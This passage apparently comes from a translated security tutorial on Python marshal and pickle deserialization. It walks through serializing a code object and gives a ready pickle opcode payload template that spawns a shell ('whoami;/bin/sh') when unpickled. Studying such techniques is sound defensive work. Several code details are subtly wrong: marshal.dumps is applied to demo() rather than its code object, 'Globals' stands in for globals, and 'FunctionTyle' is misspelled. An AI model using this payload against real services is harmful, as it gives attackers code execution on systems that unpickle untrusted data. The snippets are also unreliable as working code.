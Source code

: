 <div align=center><img src="./images/6.png"></div>

# Marshal Deserialization
Since `pickle` cannot serialize the `code` object, a `marshal` module was added after `python2.6` to handle the serialization problem of `code` objects.

```pyhon
import base64
import marshal

def demo():
    import os
    os.system('/bin/sh')

code_serialized = base64.b64encode(marshal.dumps(demo()))
print(code_serialized)
```

<div align=center><img src="./images/7.png"></div>

However, marshal cannot use `__reduce__` directly, because `reduce` is executed by calling a `callable` and passing parameters. The `marshal` function itself is a `callable` and needs to be executed instead of using it as a parameter of a function.

At this time, we need to use the `PVM` opcode analyzed above to construct it. First write out the content that needs to be executed. `Python` can dynamically create anonymous functions through `types.FunctionTyle(func_code,globals(),'')()`. The content of this part can be described in the [official document] (https://docs.python.org/3/library/types.html).

Combining the above example code, the most important thing to execute is: `(types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ''))()`.

Here I will directly post the `Payload` template given by other masters.

```python
import base64
import pickle
import marshal

def foo():
    import os
    os.system('whoami;/bin/sh') # evil code

shell = """ctypes
FunctionType
(cmmarshal)
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
Globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print(pickle.loads(shell))
```
